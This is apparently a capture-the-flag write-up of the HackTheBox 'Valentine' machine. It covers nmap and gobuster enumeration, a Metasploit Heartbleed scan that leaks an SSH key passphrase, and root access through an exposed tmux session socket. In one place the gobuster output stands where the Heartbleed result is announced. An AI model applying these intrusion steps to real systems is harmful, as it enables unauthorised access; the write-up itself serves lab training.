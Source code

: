 ```yaml
---
title: "HackTheBox - Valentine"
author: Nasrallah
description: ""
date: 2023-02-11 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, tmux, heartbleed, ssh]
img_path: /assets/img/hackthebox/machines/valentine
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Valentine](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.79
Host is up (0.43s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2023-02-01T08:18:01+00:00; -1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see three open ports.

 - 22/tcp OpenSSH

 - 80/tcp HTTP Apache

 - 443/tcp SSL/HTTP Apache.


## Web

Let's check the web page.

![](1.png)

Judging by the heart logo, i believe we'll be doing a heartbleed exploit.

## Metasploit

Let's launch metasploit and use `auxiliary/scanner/ssl/openssl_heartbleed`.

We set the following options and run the exploit.

```terminal
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssl/openssl_heartbleed) >> set rhosts 10.10.10.79                                                                    
rhosts => 10.10.10.79                                                                                                                                         
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssl/openssl_heartbleed) >> set verbose true                                                                          
verbose => true
```

![](2.png)

After multiple tries, we managed to retrieve a base64 encoded string.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.79
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/01 17:09:37 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 288]
/.hta                 (Status: 403) [Size: 283]
/.htaccess            (Status: 403) [Size: 288]
/cgi-bin/             (Status: 403) [Size: 287]
/decode               (Status: 200) [Size: 552]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.79/dev/]
/encode               (Status: 200) [Size: 554]                              
/index                (Status: 200) [Size: 38]                               
/index.php            (Status: 200) [Size: 38]                               
/server-status        (Status: 403) [Size: 292]                              
                                                                             
===============================================================
```

We found **/dev/**, let's check it out.

![](3.png)

The directory allows listing, and we can see a note.txt and hype_key file. The latter has some hex numbers that when decode give us a private ssh key.

![](4.png)

# **Foothold**

Let's copy the ssh key to our machine and give the right permissions.

We also see that the key is encrypted, which means we need a passphrase to be able to connect with it.

Tha passphrase is the decoded base64 we managed to get from the heartbleed exploit.

Now let's ssh to the machine as `hype`

![](5.png)


# **Privilege Escalation**

Checking files inside hype's home directory, we see that .bash_history file is not empty.

![](6.png)

The user seems to connect to a tmux session at `/.devs/dev_sess`, let's do the same.

```terminal
hype@Valentine:~$ tmux -S /.devs/dev_sess 
open terminal failed: missing or unsuitable terminal: tmux-256color
hype@Valentine:~$ echo $TERM
tmux-256color
hype@Valentine:~$ export TERM=xterm
```

Couldn't do it because of the terminal type i had. I solved it by exporting TERM=xterm.

Now we attach the the tmux session and it should work and we should get a root shell `tmux -S /.devs/dev_sess`

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).